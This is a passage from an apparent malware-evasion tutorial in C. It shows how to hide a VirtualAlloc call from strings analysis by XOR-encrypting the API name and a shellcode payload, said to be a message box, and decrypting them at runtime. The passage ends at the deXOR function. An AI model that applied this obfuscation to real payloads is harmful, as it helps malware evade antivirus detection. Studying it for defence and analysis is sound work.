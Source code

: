 We successfully hide our VirtualAlloc call, however its visible with strings :

```c 
strings hack2.exe | grep Virtual 
VirtualAlloc
  VirtualQuery failed for %d bytes at address %p
  VirtualProtect failed with code 0x%x
VirtualProtect
VirtualQuery
```
### xored function name 

We can remove it utilizing Xor function to encrypt and decode strings :

```c 
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

LPVOID (WINAPI * pVirtualAlloc)(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect);

// payload: messagebox (XOR encrypted)
unsigned char payload[] = { 0x3b, 0xe6, 0x8f, 0x5a, 0x2d, 0xf7, 0x97, 0x95, 0x2b, 0xff, 0x70, 0x12, 0x73, 0x65, 0x63, 0x3a, 0xe8, 0x79, 0x21, 0x65, 0x63, 0x72, 0x8d, 0xea, 0x73, 0x65, 0x63, 0x3e, 0xee, 0x8c, 0x3b, 0xe8, 0x6e, 0x2f, 0x65, 0x74, 0x73, 0x9a, 0xb3, 0x3a, 0xe8, 0x61, 0x2c, 0x65, 0x63, 0x72, 0x2d, 0xf9, 0x7e, 0x28, 0x63, 0x72, 0x65, 0x9c, 0xc, 0x65, 0x63, 0x72, 0x28, 0x47, 0xba, 0x29, 0xee, 0x77, 0x4, 0x74, 0x73, 0x65, 0x2b, 0xff, 0x70, 0x3a, 0x73, 0x65, 0x63, 0x3a, 0x56, 0xbd, 0x8c, 0xb5, 0x2b, 0xff, 0x70, 0x22, 0x73, 0x65, 0x63, 0x3a, 0xe8, 0x79, 0x79, 0x65, 0x63, 0x72, 0x8d, 0x22, 0x73, 0x65, 0x63, 0x3a, 0x56, 0xbd, 0x8c, 0xb5, 0x28, 0x37, 0x37, 0x3a, 0x36, 0x29, 0x50, 0x40, 0x4b, 0x30, 0x3f, 0x29, 0x63, 0x3e, 0xa, 0x15, 0x17, 0x29, 0xa, 0x10, 0x17, 0x15, 0x1, 0x1c, 0x22, 0x72, 0x30, 0x27, 0x36, 0x37, 0x50, 0x40, 0x4b, 0x30, 0x3f, 0x29, 0x63, 0x3f, 0x0, 0x7, 0x0, 0x4, 0x4, 0x17, 0x27, 0x1b, 0xb, 0x24, 0x63, 0x3a, 0x0, 0x18, 0x1f, 0xa, 0x43, 0x5, 0xa, 0x6, 0x1f, 0x1, 0x63, 0x3f, 0x0, 0x7, 0x0, 0x4, 0x4, 0x17, 0x65, 0x31, 0xb, 0xc, 0x17, 0x22, 0x17, 0x1b, 0x10, 0x0, 0x10, 0x1, 0x65, 0x3c, 0xf0, 0x89, 0x4b, 0x17, 0x29, 0xff, 0x77, 0x40, 0x3, 0x72, 0x65, 0x74, 0x3e, 0xee, 0x23, 0x6a, 0x28, 0xf9, 0x13, 0x75, 0x2e, 0xf9, 0x61, 0x50, 0x8f, 0x2c, 0xe8, 0xa, 0x5, 0x3c, 0xf8, 0x94, 0xcf, 0xf6, 0xa5, 0x0, 0x55, 0xef, 0x44, 0xf2, 0x99, 0x15, 0xf, 0x66, 0xe3, 0x9e, 0x45, 0x4e, 0x93, 0x10, 0x6b, 0x3a, 0x9a, 0xb3, 0x3b, 0x9a, 0xa4, 0x99, 0x80, 0x39, 0xf8, 0x65, 0x2e, 0x49, 0xa1, 0x1, 0xa5, 0x2d, 0x50, 0xb2, 0x8c, 0xd3, 0x73, 0x65, 0x63, 0x3b, 0xee, 0x2c, 0x43, 0x21, 0xe8, 0x39, 0x59, 0x38, 0x70, 0xae, 0x2a, 0xf3, 0xa4, 0xfc, 0x73, 0x65, 0x63, 0x37, 0xee, 0x5d, 0x3e, 0xe0, 0x8e, 0x7, 0x6d, 0x3c, 0x40, 0xa5, 0x8a, 0xf7, 0x65, 0x74, 0x73, 0x2b, 0xee, 0x76, 0x4e, 0x31, 0xf8, 0x14, 0x67, 0x3f, 0x66, 0x81, 0x32, 0xee, 0x2b, 0x6a, 0x20, 0xff, 0x23, 0x45, 0x2f, 0x71, 0xb6, 0x8b, 0xba, 0x28, 0xee, 0x7e, 0xef, 0x35, 0xf8, 0x5c, 0x2b, 0x71, 0x9e, 0x3c, 0xf8, 0x97, 0xc5, 0x7, 0x6d, 0xfe, 0x75, 0xe1, 0xa3, 0x6, 0x6c, 0x9f, 0x86, 0x87, 0x85, 0x3a, 0x56, 0xb4, 0x98, 0x2b, 0x26, 0xf9, 0x2d, 0x50, 0x3f, 0x66, 0xa8, 0x14, 0x24, 0xff, 0x7f, 0x2c, 0x26, 0xf9, 0x2d, 0x68, 0x3f, 0x66, 0xa8, 0x33, 0xee, 0x70, 0xfa, 0x2c, 0x58, 0xb7, 0x19, 0x5b, 0x3a, 0x5e, 0xa5, 0x1, 0x4f, 0x3c, 0xfe, 0x51, 0x7b, 0x3a, 0xe8, 0x8, 0x57, 0x55, 0x2f, 0xf9, 0x82, 0xd0, 0xf3, 0x5b, 0x4d, 0x7, 0x9f, 0xd0, 0xb4, 0x62, 0x27, 0x3e, 0x29, 0x74, 0x3a, 0xee, 0xaf, 0x33, 0x9a, 0xa3, 0x3a, 0xee, 0xaf, 0x3a, 0xee, 0xa2, 0x9a, 0x71, 0x9c, 0x8d, 0x9a, 0x3c, 0x70, 0xa6, 0x2b, 0xf1, 0xa1, 0x5c, 0xb0 };
unsigned char cVirtualAlloc[] = { 0x25, 0xc, 0x11, 0x6, 0x10, 0x15, 0x1f, 0x24, 0xf, 0x1e, 0xa, 0x17 };

char secretKey[] = "secret";

// encryption / decryption XOR function
void deXOR(char *buffer, size_t bufferLength, char *key, size_t keyLength) {
  int keyIndex = 0;
  for (int i = 0; i < bufferLength; i++) {
    if (keyIndex == keyLength - 1) keyIndex = 0;
    buffer[i] = buffer[i] ^ key[keyIndex];
    keyIndex++;
  }
}

```